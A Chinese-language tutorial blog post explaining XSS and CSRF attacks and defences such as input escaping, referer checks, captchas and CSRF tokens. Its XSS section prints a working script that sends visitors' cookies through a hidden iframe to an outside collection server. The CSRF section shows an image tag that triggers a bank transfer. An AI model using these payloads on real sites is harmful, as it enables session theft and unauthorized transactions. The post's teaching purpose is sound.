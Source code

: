 ```yaml
---
title: 前端安全：XSS与CSRF
date: 2017-09-15
tags: [xss,csrf]
categories: 前端安全
---
```


> 整理自:
> [详解 XSS 与 CSRF 两种跨站攻击](http://www.zyy1217.com/2017/04/22/%E8%AF%A6%E8%A7%A3XSS%E4%B8%8ECSRF%E4%B8%A4%E7%A7%8D%E8%B7%A8%E7%AB%99%E6%94%BB%E5%87%BB/)
> [总结 XSS 与 CSRF 两种跨站攻击](https://segmentfault.com/a/1190000004623125)

## XSS 跨站脚本（Cross-site scripting，通常简称为 XSS）

### 原理

XSS 全称“跨站脚本”，是注入攻击的一种。其特点是不对服务器端造成任何伤害，而是通过一些正常的站内交互途径，例如发布评论，提交含有 JavaScript 的内容文本。这时服务器端如果没有过滤或转义掉这些脚本，作为内容发布到了页面上，其他用户访问这个页面的时候就会运行这些脚本。

### 举例：

假设 xx 贴吧存在这个漏洞，我打开一个帖子回复：

```js
// 用<script type="text/javascript"></script>包起来
while (true) {
  alert('hello,xss')
}
```

然后这条回复就发出去啦，当其他用户点进这个帖子，这段代码就会被执行，然后一直 alert，这就是最原始的脚本注入。

那 XSS 跨站脚本也很容易理解了，注入一个可以跨站的脚本即可：

```js
// 用 <script type="text/javascript"></script> 包起来放在评论中
;(function(window, document) {
  // 构造泄露信息用的 URL
  var cookies = document.cookie
  var xssURIBase = 'http://192.168.123.123/myxss/'
  var xssURI = xssURIBase + window.encodeURI(cookies)
  // 建立隐藏 iframe 用于通讯
  var hideFrame = document.createElement('iframe')
  hideFrame.height = 0
  hideFrame.width = 0
  hideFrame.style.display = 'none'
  hideFrame.src = xssURI
  // 开工
  document.body.appendChild(hideFrame)
})(window, document)
```

这时候，用户点进帖子，这段代码开始运行，他们并不知道自己的信息（cookie）已经被 iframe 跨域的方式送到收集服务器上，然后我们就可以用 cookie 中的隐私信息做很多很多事情啦。

### 如何防御 XSS 攻击

我们知道 AJAX 技术所使用的 XMLHttpRequest 对象都被浏览器做了限制，只能访问当前域名下的 URL，所谓不能“跨域”问题。这种做法的初衷也是防范 XSS，多多少少都起了一些作用，但不是总是有用，正如上面的注入代码，用 iframe 也一样可以达到相同的目的。甚至在愿意的情况下，我还能用 iframe 发起 POST 请求。当然，现在一些浏览器能够很智能地分析出部分 XSS 并予以拦截，例如新版的 Firefox、Chrome 都能这么做。但拦截不总是能成功，何况这个世界上还有大量根本不知道什么是浏览器的用户在用着可怕的 IE6。从原则上将，我们也不应该把事关安全性的责任推脱给浏览器，所以防止 XSS 的根本之道还是过滤用户输入。用户输入总是不可信任的，这点对于 Web 开发者应该是常识。

正如上文所说，如果我们不需要用户输入 HTML 而只想让他们输入纯文本，那么把所有用户输入进行 HTML 转义输出是个不错的做法。

## CSRF 跨站请求伪造（ross-site request forgery）

跨站请求攻击，简单地说，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。这利用了 web 中用户身份验证的一个漏洞：简单的身份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的。

你这可以这么理解 CSRF 攻击：攻击者盗用了你的身份，以你的名义发送恶意请求。CSRF 能够做的事情包括：以你名义发送邮件，发消息，盗取你的账号，甚至于购买商品，虚拟货币转账……造成的问题包括：个人隐私泄露以及财产安全。

严格意义上来说，CSRF 不能分类为注入攻击，因为 CSRF 的实现途径远远不止 XSS 注入这一条。通过 XSS 来实现 CSRF 易如反掌，但对于设计不佳的网站，一条正常的链接都能造成 CSRF。

### 原理

![csrf.jpg](http://upload-images.jianshu.io/upload_images/4869616-3449f27f48a1a9c5.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

从上图可以看出，要完成一次 CSRF 攻击，受害者必须依次完成两个步骤：

1.  登录受信任网站 A，并在本地生成 Cookie。
2.  在不登出 A 的情况下，访问危险网站 B。

### 举例

1.  你登录银行网站 A，银行网站 A 违反了 HTTP 规范，使用 GET 请求更新资源。这就存在了 csrf 漏洞。
2.  你访问危险网站 B，B 中有一段代码

```js
<img src=http://www.mybank.com/Transfer.php?toBankId=11&money=1000>
```

3.  你发现你的账户少了 1000 元

为什么会这样呢？原因是银行网站 A 违反了 HTTP 规范，使用 GET 请求更新资源。在访问危险网站 B 的之前，你已经登录了银行网站 A，而 B 中的以 GET 的方式请求第三方资源（这里的第三方就是指银行网站了，原本这是一个合法的请求，但这里被不法分子利用了），所以你的浏览器会带上你的银行网站 A 的 Cookie 发出 Get 请求，去获取资源http://www.mybank.com/Transfer.php?toBankId=11&money=1000 ，结果银行网站服务器收到请求后，认为这是一个更新资源操作（转账操作），所以就立刻进行转账操作。

### 如何防御 CSRF 攻击

1.  通过 referer 判定来源页面
    referer 是在 HTTP Request Head 里面的，也就是由请求的发送者决定的。如果我喜欢，可以给 referer 任何值。当然这个做法并不是毫无作用，起码可以防小白。

2.  使用验证码
    在表单中增加一个随机的数字或字母验证码，通过强制用户和应用进行交互，来有效地遏制 CSRF 攻击。

3.  token 验证

    - 在 HTTP 请求中以参数的形式加入一个随机产生的 token，并在服务器端建立一个拦截器来验证这个 token，如果请求中没有 token 或者 token 内容不正确，则认为可能是 CSRF 攻击而拒绝该请求。

    - token 需要足够随机

    - 敏感的操作应该使用 POST，而不是 GET，以 form 表单的形式提交，可以避免 token 泄露。

4.  在 HTTP 头中自定义属性并验证
    这种方法也是使用 token 并进行验证，这里并不是把 token 以参数的形式置于 HTTP 请求之中，而是把它放到 HTTP 头中自定义的属性里。通过 XMLHttpRequest 这个类，可以一次性给所有该类请求加上 csrftoken 这个 HTTP 头属性，并把 token 值放入其中。这样解决了上种方法在请求中加入 token 的不便，同时，通过 XMLHttpRequest 请求的地址不会被记录到浏览器的地址栏，也不用担心 token 会透过 Referer 泄露到其他网站中去。

    我的理解：WebB 并没有获取你的 cookie，而只是伪造用户发起 http 请求，浏览器自动带上 cookie 而已，token 存放在 cookie 中，即使 cookie 发送至服务端，我们每一次接受请求验证的并不是 cookie，而是 header 中的 token，WebB 就无能为力了。

## XSS 与 CSRF 的区别

CSRF 和 XSS 根本是两个不同维度上的分类。XSS 是实现 CSRF 的诸多途径中的一条，但绝对不是唯一的一条。一般习惯上把通过 XSS 来实现的 CSRF 称为 XSRF。

可以通过跨站脚本注入 XSS 获取用户的信息，获得用户信息过后可以做诸多的事情，但是 CSRF 只能模拟用户行为，

CSRF 的全称是“跨站请求伪造”，而 XSS 的全称是“跨站脚本”。看起来有点相似，它们都是属于跨站攻击——不攻击服务器端而攻击正常访问网站的用户，但前面说了，它们的攻击类型是不同维度上的分类。CSRF 顾名思义，是伪造请求，冒充用户在站内的正常操作。我们知道，绝大多数网站是通过 cookie 等方式辨识用户身份（包括使用服务器端 Session 的网站，因为 Session ID 也是大多保存在 cookie 里面的），再予以授权的。所以要伪造用户的正常操作，最好的方法是通过 XSS 或链接欺骗等途径，让用户在本机（即拥有身份 cookie 的浏览器端）发起用户所不知道的请求。
